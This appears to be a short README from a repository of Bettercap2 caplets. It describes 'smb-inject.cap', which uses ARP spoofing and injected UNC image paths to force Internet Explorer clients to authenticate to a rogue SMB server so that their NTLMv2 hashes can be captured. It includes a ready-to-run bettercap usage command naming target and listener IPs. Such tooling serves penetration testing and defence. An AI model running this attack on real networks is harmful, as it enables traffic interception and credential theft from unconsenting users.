 # Bettercap2 Caplets

### smb-inject.cap
__Description__: _Injects HTML image tags using UNC file path references (file://ip/smb.jpg). Forces clients rendering HTML in Internet Explorer, or applications using Windows IE objects, to connect to your SMB server. Run a rogue SMB server to capture NTLMv2 hashes_
__Related JS__: smb-inject.js
__Usage__:
`bettercap -caplet smb-inject.cap -eval "set arp.spoof.targets IP; set smb.listener.ip SMB.Server.IP"`
__smb.listener.ip__ is the IP to your rogue SMB server
__arp.spoof.targets__ is the IP (single or CIDR notation) of the range to poison/spoof

